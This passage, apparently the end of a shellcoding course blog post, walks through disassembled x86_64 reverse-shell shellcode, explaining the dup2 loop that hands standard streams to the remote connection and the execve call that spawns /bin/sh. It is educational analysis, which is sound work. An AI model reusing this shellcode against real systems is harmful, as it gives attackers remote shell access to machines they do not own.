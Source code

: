 
## Dup2 Loop
This is the dup2 system call loop to pass standard input, output, and error to the remote connection.
```bash
<shellcode+36>:       push   0x3
<shellcode+38>:       pop    rsi
<shellcode+39>:       dec    rsi
<shellcode+42>:       push   0x21
<shellcode+44>:       pop    rax
<shellcode+45>:       syscall
<shellcode+47>:       jne    <shellcode+39>
```
+ `0x21` is the system call for dup2.

## Execve 
Here we see the execve system call which will spawn a shell after establishing a remote connection.
```bash
<shellcode+49>:       push   0x3b
<shellcode+51>:       pop    rax
<shellcode+52>:       cdq
```
+ set `rax` to the system call number for `execve`.
+ `cdq` clears the `rdx` register.

```bash
RDI: 0x7fffffffe0e8 --> 0x68732f6e69622f ('/bin/sh')

<shellcode+53>:       movabs rbx,0x68732f6e69622f
<shellcode+63>:       push   rbx
<shellcode+64>:       mov    rdi,rsp
<shellcode+67>:       push   rdx
```
+ Here we see `rdi` set to the memory address of the null terminated string `/bin/sh`.

```bash
RSI: 0x7fffffffe0d8 --> 0x7fffffffe0e8 --> 0x68732f6e69622f ('/bin/sh')

<shellcode+68>:       push   rdi
<shellcode+69>:       mov    rsi,rsp
```
+ Here we see `rsi` set to be a pointer to a pointer for the string `/bin/sh`.

```bash
<shellcode+72>:       syscall
<shellcode+74>:       add    BYTE PTR [rax],al
```
+ And finally, this is our reverse shell spawning the shell for the connection.

## SLAE64 Blog Proof
```bash
This blog post has been created for completing the requirements of the x86_64 Assembly Language and Shellcoding on Linux (SLAE64):
    https://www.pentesteracademy.com/course?id=7
SLAE/Student ID: PA-10913
```

